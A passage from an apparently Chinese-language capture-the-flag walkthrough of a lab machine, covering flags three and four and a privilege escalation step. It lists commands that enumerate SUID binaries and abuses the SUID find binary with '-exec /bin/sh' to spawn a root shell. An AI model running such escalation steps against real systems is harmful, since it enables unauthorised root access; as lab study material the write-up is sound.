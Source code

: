 ![f0306074-0e74-4e83-9d36-2b96e9cbec68](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/f0306074-0e74-4e83-9d36-2b96e9cbec68.png)

- 那我们就可以直接拿着账号密码登录最开始访问的那个网站，在**dashboard**和**content**中都可以找到**flag3**

![b9a9963f-b64d-4de1-8bfc-89e1bf6a3163](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/b9a9963f-b64d-4de1-8bfc-89e1bf6a3163.png)

![86b6342b-920c-4f84-b161-6eb4cc02445e](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/86b6342b-920c-4f84-b161-6eb4cc02445e.png)

> **flag3：**
>
> **Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.**

![c838d46f-3446-4dd6-96cd-80298e282a22](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/c838d46f-3446-4dd6-96cd-80298e282a22.png)

- flag3中有几个关键词：perms、find、-exec、shadow

### 4.误打误撞发现了flag4

![15bc44cf-40b8-48e8-bcf4-744501d9026b](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/15bc44cf-40b8-48e8-bcf4-744501d9026b.png)

> **flag4：**
>
> **Can you use this same method to find or access the flag in root?**
>
> **Probably. But perhaps it's not that easy.  Or maybe it is?**

### 5.提权

- 根据提示进到根目录下，但是提示没有权限

![6d9b80a3-a0bc-441f-84ea-ce8497f7fb1e](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/6d9b80a3-a0bc-441f-84ea-ce8497f7fb1e.png)

- 此时，我们想到flag3中提到的几个关键词，我们可以利用一些方法进行提权
- 以下命令可以查看当前系统上运行的所有SUID可执行文件

```plain
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} ;
```

- 看到有find命令

![0a647e18-e436-4936-9972-7e6ea1c250e6](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/0a647e18-e436-4936-9972-7e6ea1c250e6.png)

- 利用命令提权

```plain
find root -exec '/bin/sh' \；
```

![88c75a97-b9e6-4b1a-a408-a014dae31e69](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/88c75a97-b9e6-4b1a-a408-a014dae31e69.png)

- 进到根目录下找到最后的flag
